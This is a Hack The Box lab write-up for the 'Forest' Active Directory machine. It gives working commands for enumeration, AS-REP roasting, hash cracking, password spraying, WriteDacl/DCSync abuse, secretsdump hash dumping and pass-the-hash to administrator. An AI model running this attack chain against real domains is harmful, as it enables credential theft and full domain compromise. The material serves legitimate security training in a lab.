

# Summary


## about target

tip:  10.129.28.117

hostname: Forest

Difficulty: Easy; not that easy


## about attack

+ High value groups, and the permission to check.

+ WriteDacl to domain, add Dcsyn right to dump hash.

+ ldap enum, ldapsearch usage;  enum user 

+ rpc enum, rpcclient -U ''; anonymous login not work

+ hashcat crack ntlm hash, which from secretdump.

+ Crackmapexec, enum password plicy.

  


**attack note**

```bash
Forest / 10.129.47.70

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-10-14 17:37:56Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
47001/tcp open  winrm?
| fingerprint-strings:
|   JavaRMI:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html; charset=us-ascii
|     Server: Microsoft-HTTPAPI/2.0
|     Date: Fri, 14 Oct 2022 17:37:55 GMT
|     Connection: close
|     Content-Length: 326
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
|     <HTML><HEAD><TITLE>Bad Request</TITLE>
|     <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
|     <BODY><h2>Bad Request - Invalid Verb</h2>
|     <hr><p>HTTP Error 400. The request verb is invalid.</p>
|_    </BODY></HTML>
49664/tcp open  unknown
49665/tcp open  msrpc             Microsoft Windows RPC
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49671/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC


## enum

enum4linux -a $tip | tee enum4linux.log

cat users.txt | cut -d " " -f 1 | cut -d ":" -f 2 | cut -d "[" -f 2 | cut -d "]" -f 1 > user.list

### ldap
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" > ldap-anonymous.log

### ldap user enum 
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname

# obtain the version and pwd policy.
crackmapexec smb $tip -u '' -p '' --pass-pol

### asrespoast
GetNPUsers.py -usersfile user.list  -no-pass -dc-ip $tip htb.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt
svc-alfresco/s3rvice

check passwod.
crackmapexec smb $tip -u svc-alfresco -p s3rvice --shares

password spray
crackmapexec smb $tip -u users.txt -p s3rvice --shares

evil-winrm -u svc-alfresco -p s3rvice -i $tip


## exploit
service accounts mem of 

net user hello Password1 /add /domain

$SecPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hello', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity hello -Rights DCSync
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hello -Rights DCSync

secretsdump.py -just-dc htb.local/svc-alfresco:s3rvice@$tip   > hash.out

cat hash.out | grep ::: | awk -F: '{print $1":"$4}'

hashcat --user -m 1000 forest-ntlm /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule
```


# Enumeration

## nmap scan

Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-10-14 17:37:56Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds      Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
47001/tcp open  winrm?
| fingerprint-strings:
|   JavaRMI:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html; charset=us-ascii
|     Server: Microsoft-HTTPAPI/2.0
|     Date: Fri, 14 Oct 2022 17:37:55 GMT
|     Connection: close
|     Content-Length: 326
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
|     <HTML><HEAD><TITLE>Bad Request</TITLE>
|     <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
|     <BODY><h2>Bad Request - Invalid Verb</h2>
|     <hr><p>HTTP Error 400. The request verb is invalid.</p>
|_    </BODY></HTML>
49664/tcp open  unknown
49665/tcp open  msrpc             Microsoft Windows RPC
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49671/tcp open  msrpc             Microsoft Windows RPC
49676/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc             Microsoft Windows RPC
49681/tcp open  msrpc             Microsoft Windows RPC
49698/tcp open  msrpc             Microsoft Windows RPC
```


## Ad enum

enum4linux;  found user, password policy.

```bash
enum4linux -a $tip | tee enum4linux.log
```


smb share.  no shares

```bash
smbclient -L $tip
```


Crackmapexec, enum the policy and windows info.

```bash
# obtain the version and pwd policy.
crackmapexec smb $tip -u '' -p '' --pass-pol
crackmapexec smb $tip  --pass-pol

```


ldapsearch, same to enum4linux.

```bash
# ldap anonymous enum.
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" > ldap-anonymous.log

### ldap user enum; objectclass=user/person
ldapsearch -H ldap://$tip:389 -x -b "DC=htb,DC=local" '(Objectclass=user)' samaccountname | grep -i samaccountname
```


# Exploit

## asrepoast

```bash
GetNPUsers.py -usersfile user.list  -no-pass -dc-ip $tip htb.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt
svc-alfresco/s3rvice
```


Check the cred.

```bash
# check passwod.
crackmapexec smb $tip -u svc-alfresco -p s3rvice --shares
```


connect via wimrm.

```bash
evil-winrm -u svc-alfresco -p s3rvice -i $tip
```


## password spray.

```bash
crackmapexec smb $tip -u users.txt -p s3rvice --shares
```

nothing.


# Privesc


## local enum

winpeas enum, nothing.  Use the smbshare to upload, or evil-winrm upload.


Bloodhound, enum.

```bash
upload sharphound.exe 
sharphound.exe -c all
```

set svc-alfresco as owned,  shortest path from owned principals.

svc-alfresco member of service accounts  group,  member of privileged it accounts, member of account operators. 


check the group, account operator.

reachable high value targets,  member of exchange windows permissions, which has writedacl permission to domain.


## System-writedacl

check the help info, how to abuse writedacl.


create user, and add to group `Exchange windows permissions`

```bash
net user hello Password1 /add /domain

net group "Exchange windows permissions" hello /add
```

use the powerview, Add-DomainObjectAcl

```bash
$SecPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\hello', $SecPassword)

# not work, no idea.
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity hello -Rights DCSync

# this works.
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hello -Rights DCSync

# dump hash.
secretsdump.py -just-dc htb.local/svc-alfresco:s3rvice@$tip 
```


pass the hash. Got the system.

```bash
psexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 administrator@$tip
```



## proof

```bash


```


